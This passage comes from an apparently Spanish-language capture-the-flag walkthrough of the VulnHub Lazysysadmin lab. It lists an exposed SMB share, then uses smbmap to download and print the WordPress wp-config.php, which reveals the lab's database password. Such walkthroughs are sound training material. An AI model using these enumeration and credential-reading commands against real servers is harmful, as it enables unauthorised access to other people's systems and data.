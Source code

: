 ```bash
        fr--r--r--              418 Tue Sep 24 21:18:10 2013    index.php
        fr--r--r--             3286 Sun May 24 14:26:24 2015    wp-cron.php
        fr--r--r--             2422 Sun Nov 20 23:46:29 2016    wp-links-opml.php
        fr--r--r--             7413 Mon Dec 12 05:01:38 2016    readme.html
        fr--r--r--            29924 Tue Jan 24 08:08:41 2017    wp-signup.php
        dr--r--r--                0 Mon Aug 21 07:07:27 2017    wp-content
        fr--r--r--            19935 Mon Jan  2 14:58:41 2017    license.txt
        fr--r--r--             8048 Wed Jan 11 02:13:42 2017    wp-mail.php
        fr--r--r--             5447 Tue Sep 27 18:36:27 2016    wp-activate.php
        fr--r--r--               35 Tue Aug 15 08:40:13 2017    .htaccess
        fr--r--r--             3065 Wed Aug 31 13:31:28 2016    xmlrpc.php
        fr--r--r--            34327 Fri May 12 14:12:45 2017    wp-login.php
        fr--r--r--             3301 Tue Oct 25 00:15:29 2016    wp-load.php
        fr--r--r--             1627 Mon Aug 29 09:00:31 2016    wp-comments-post.php
        fr--r--r--             3703 Mon Aug 21 06:25:14 2017    wp-config.php
        dr--r--r--                0 Wed Aug  2 18:02:02 2017    wp-includes
```

La configuración del sitio se encuentra en el archivo `wp-config-php`, lo descargamos y verificamos su contenido buscando la password de admin.

```bash
❯ smbmap -H 10.11.12.16 --download share$/wordpress/wp-config.php
[+] Starting download: share$\wordpress\wp-config.php (3703 bytes)
[+] File output to: /home/lvs3c/CTF/VulnHub/Lazysysadmin/10.11.12.16/content/10.11.12.16-share_wordpress_wp-config.php

❯ cat 10.11.12.16-share_wordpress_wp-config.php
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: 10.11.12.16-share_wordpress_wp-config.php
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ <?php
   2   │ /**
   3   │  * The base configuration for WordPress
   4   │  *
   5   │  * The wp-config.php creation script uses this file during the
   6   │  * installation. You don't have to use the web site, you can
   7   │  * copy this file to "wp-config.php" and fill in the values.
   8   │  *
   9   │  * This file contains the following configurations:
  10   │  *
  11   │  * * MySQL settings
  12   │  * * Secret keys
  13   │  * * Database table prefix
  14   │  * * ABSPATH
  15   │  *
  16   │  * @link https://codex.wordpress.org/Editing_wp-config.php
  17   │  *
  18   │  * @package WordPress
  19   │  */
  20   │
  21   │ // ** MySQL settings - You can get this info from your web host ** //
  22   │ /** The name of the database for WordPress */
  23   │ define('DB_NAME', 'wordpress');
  24   │
  25   │ /** MySQL database username */
  26   │ define('DB_USER', 'Admin');
  27   │
  28   │ /** MySQL database password */
  29   │ define('DB_PASSWORD', 'TogieMYSQL12345^^');
  30   │
  31   │ /** MySQL hostname */
```